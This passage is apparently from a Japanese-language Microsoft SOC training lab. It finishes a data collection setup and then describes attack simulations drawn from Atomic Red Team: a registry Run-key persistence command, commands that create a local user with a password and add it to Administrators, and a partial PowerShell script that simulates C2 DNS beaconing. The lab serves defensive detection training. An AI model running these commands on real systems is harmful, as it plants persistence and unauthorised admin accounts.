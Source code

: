 1. **[次へ: 収集]** を選択し、*[すべてのセキュリティ イベント]* を選択したままにします。

1. **確認と作成** をクリックします。

1. *[検証に成功しました]* が表示されたら、 **[作成]** を選択します。

### タスク 3: 攻撃を理解する

>**重要:この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃について説明するものにすぎません。 このページをよくお読みください。

攻撃パターンは、オープン ソース プロジェクトに基づいています。 <https://github.com/redcanaryco/atomic-red-team>

#### 攻撃 1 - レジストリ キーの追加による永続性

攻撃者は、Run レジストリ キーにプログラムを追加します。 これにより、ユーザーがログオンするたびにプログラムが実行されるため、永続化が実現します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。 これにより、攻撃者は特権のある別のアカウントでログオンできます。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### 攻撃 3 - ドメイン ネーム サービスおよびコマンド & コントロール

攻撃者は、コマンド & コントロール (C2) サーバーに大量の DNS クエリを送信します。 この目的は、単一ソースのシステムまたは単一ターゲットのドメインからの DNS クエリの数に対して、しきい値ベースの検出をトリガーすることです。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
```